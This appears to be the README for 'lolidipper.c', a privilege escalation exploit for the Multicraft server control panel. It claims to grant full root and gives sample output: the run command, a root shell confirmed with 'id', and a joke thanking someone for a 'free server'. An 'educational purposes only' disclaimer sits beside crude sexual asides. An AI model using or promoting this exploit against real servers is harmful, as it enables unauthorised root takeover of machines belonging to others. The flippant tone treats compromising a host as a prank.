 lolidipper.c
=======================

Multicraft privilege escelation exploit

This will exploit a flaw in multicraft and give full root permissions on a server running multicraft.
I can't stop you from using it on hosts, but please don't. This is for educational purposes only

Sample Output
==============
    ./lolidipper 1000 25465
    takes about 13 minutes to run because running bits and bytes are slow and needs a secondfor each offset and 0xff*3 is 765.
        * some things you could do while waiting:
        * watch https://www.youtube.com/watch?v=t2we10nvE7A
        * watch https://www.youtube.com/watch?v=UX44ugzaqw4 $VAI $VAI $VAI $VAI
        * mastrubate to anime
    w00t w00t g0t r00t sh3ll!!!!
    # id
    uid=0(root) gid=25465(395231) groups=25465(395231)
    #free -g
                 total       used       free     shared    buffers     cached
    Mem:           104         74          30          0          0          1
    -/+ buffers/cache:          0          1
    Swap:          512        171        341
    #
    #
    # Thanks for free server.
    Thanks: command not found
